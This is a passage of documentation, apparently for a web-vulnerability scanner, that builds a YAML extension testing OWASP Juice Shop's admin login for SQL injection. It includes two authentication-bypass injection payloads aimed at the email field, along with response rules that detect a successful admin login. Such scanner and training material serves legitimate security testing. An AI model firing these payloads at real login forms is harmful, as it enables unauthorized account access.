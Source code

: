     Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    

>   #### Info:: Escaping the special symbols
>   Remember to escape the special symbols in the strings.


##  The Extension File

Now the `mod-extension.yaml` file contains the complete set of the sections required for the extension to operate. The listing of the file's content is below:

{% collapse title="mod-extension.yaml" %}
```
meta-info:
  - type: sqli
  - threat: 80
  - title: 'OWASP Juice Shop SQLi (mod extension)'
  - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

collect:
  - uniq:
    - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

match:
  - PATH_0_value: 'rest'
  - PATH_1_value: 'user'
  - ACTION_NAME_value: 'login'

modify:
  - "HEADER_ACCEPT-LANGUAGE_value": ""
  - "POST_JSON_DOC_HASH_email_value": "dummy"
  - "POST_JSON_DOC_HASH_password_value": "dummy"

generate:
  - payload:
    - "'or 1=1 --"
    - "admin@juice-sh.op'--"
  - into: "POST_JSON_DOC_HASH_email_value"
  - method:
    - replace

detect:
  - response:
    - body: "\"umail\":\"admin@juice-sh.op\""
    - body: "\"bid\":1"
```
{% endcollapse %}

##  Using the Extension

For detailed information about how to use the created expression, read [this document][link-using-extension]. 

[link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md
[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project